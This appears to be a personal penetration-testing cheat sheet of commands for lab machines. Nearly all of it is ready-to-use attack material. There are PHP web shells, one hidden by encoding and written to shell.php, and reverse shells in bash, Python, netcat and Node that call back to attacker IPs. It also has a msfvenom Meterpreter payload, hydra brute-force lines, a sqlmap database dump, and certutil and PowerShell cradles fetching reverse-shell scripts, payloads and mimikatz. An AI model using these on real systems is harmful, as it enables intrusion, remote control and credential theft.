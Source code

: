# Tips and Tricks

Just various bits of script and techniques I've found useful.

## Web shells

PHP one liner:

`<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>`

PHP interactive shell:

```
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
<script>document.getElementById("cmd").focus();</script>
```

shell above emitted to a file via base64:

```
echo %50%47%5a%76%63%6d%30%67%62%57%56%30%61%47%39%6b%50%53%4a%48%52%56%51%69%49%47%35%68%62%57%55%39%49%6a%77%2f%63%47%68%77%49%47%56%6a%61%47%38%67%59%6d%46%7a%5a%57%35%68%62%57%55%6f%4a%46%39%54%52%56%4a%57%52%56%4a%62%4a%31%42%49%55%46%39%54%52%55%78%47%4a%31%30%70%4f%79%41%2f%50%69%49%2b%43%6a%78%70%62%6e%42%31%64%43%42%30%65%58%42%6c%50%53%4a%55%52%56%68%55%49%69%42%75%59%57%31%6c%50%53%4a%6a%62%57%51%69%49%47%6c%6b%50%53%4a%6a%62%57%51%69%49%48%4e%70%65%6d%55%39%49%6a%67%77%49%6a%34%4b%50%47%6c%75%63%48%56%30%49%48%52%35%63%47%55%39%49%6c%4e%56%51%6b%31%4a%56%43%49%67%64%6d%46%73%64%57%55%39%49%6b%56%34%5a%57%4e%31%64%47%55%69%50%67%6f%38%4c%32%5a%76%63%6d%30%2b%43%6a%78%77%63%6d%55%2b%43%6a%77%2f%63%47%68%77%43%69%41%67%49%43%42%70%5a%69%68%70%63%33%4e%6c%64%43%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4b%51%6f%67%49%43%41%67%65%77%6f%67%49%43%41%67%49%43%41%67%49%48%4e%35%63%33%52%6c%62%53%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4f%77%6f%67%49%43%41%67%66%51%6f%2f%50%67%6f%38%4c%33%42%79%5a%54%34%4b%50%48%4e%6a%63%6d%6c%77%64%44%35%6b%62%32%4e%31%62%57%56%75%64%43%35%6e%5a%58%52%46%62%47%56%74%5a%57%35%30%51%6e%6c%4a%5a%43%67%69%59%32%31%6b%49%69%6b%75%5a%6d%39%6a%64%58%4d%6f%4b%54%73%38%4c%33%4e%6a%63%6d%6c%77%64%44%34%3d | base64 -d > shell.php
```

## Reverse shells

Bash (almost never works in my experience):

`bash -i >& /dev/tcp/10.10.194.3/4444 0>&1`

Python (almost always works in my experience):

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.194.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Netcat when you dont have the -e option (this actually worked once when the others didnt!):

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.19.140 4444 >/tmp/f`

Node reverse shell, if you can get this included on a nodejs server:

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "10.10.227.15", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

## shell tricks

making a bad reverse shell better:

`python -c 'import pty; pty.spawn("/bin/bash")'`

bypassing url encoding if doing something sneaky like get[cmd]:

`echo urlencoded | base64 -d > shell.php`

creating a windows exe that will call home:

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.100.16 LPORT=4443 -f exe -o callhome.exe`

## Brute forcing with hydra

`hydra -l admin -P ./rockyou.txt 10.10.207.186 http-post-form "/Account/login.php:username=^USER^&password=^PASS^&login=login:Login failed"`

The below targets an aspx page, that needed viewstate to go with it in order to get the error message back:

`hydra -l admin -P ./rockyou.txt 10.10.207.186 http-post-form "/Account/login.aspx:__VIEWSTATE=pIru3H%2F3LYg1qp3lNSwHX1ALuENNV6tddZ32Zp4xRIs57ec4jlYH9sp8EHtZ0sp66EsCaToBXZLEbw62lNBT7XuKpv84ZHetBU3stATD5DYczl9JagBTENtoK%2B6lyNFyDsrRWb34%2F9jXclG%2FsQWa1tJXjQAYZJP2MJNhNaH2WMIL%2FQf9&__EVENTVALIDATION=lQWGlUQ0Fmhz%2BuiWoqOKaexWGfGTltskH%2FV3RsXfmd%2B8N5m8JCLGWXUm7pFZQj0G0QjJMd3MLudMx0zUAlot%2BanlZVtlggDnm3e%2B2DNiDwnhrETOWRZdwtNypSULvwzs8ZlD1SiHFFPASQz1PJN12l5Fi3uL4UCohXb%2BBjCo1nU5Sz7I&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"`

## use sqlmap to exploit a blind sql vector (knowing which param and vector to use)

Raw sqlmap will go through all its tests, which might take ages. If you know the test to use, then you can actually specify it in the sqlmap command.

`sqlmap -u "http://10.10.69.3/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --test-filter="MySQL >= 5.0 error-based - Parameter replace (FLOOR)" --random-agent --dump -p list[fullordering]`

In the above, exploiting https://www.exploit-db.com/exploits/42033, I know the param and the test that will work, so I specify both and jump straight to the dumping.

## downloading files from the windows command prompt

without the use of powershell or anything clever. great for pulling files off my attacker machine

```
certutil.exe -urlcache -split -f "http://10.10.139.149:8000/callhome.exe" callhome.exe
certutil.exe -urlcache -split -f "http://10.10.139.149:8000/callhome2.exe" callhome2.exe
certutil.exe -urlcache -split -f "http://10.10.139.149:8000/winPEAS.bat" winPEAS.bat
```

with powershell (first also invokes a script, in this case Invoke-PowerShellTcp from Nishang):

`println "powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.100.16:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.100.16 -Port 4444".execute().text`

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.139.149:8000/callhome.exe','callhome.exe')"`

or more simply, in powershell:

`Invoke-WebRequest -Uri $url -OutFile $output`

using python (if you have it):

`c:\Python27\python.exe -c "import urllib; print urllib.urlopen('http://10.10.50.123:8000/mimikatz_trunk.zip').read()" > mimikatz_trunk.zip`

## cracking zips

apart from zip2john and john, there is also `fcrackzip -b --method 2 -D -p rockyou.txt -v extracted.zip`
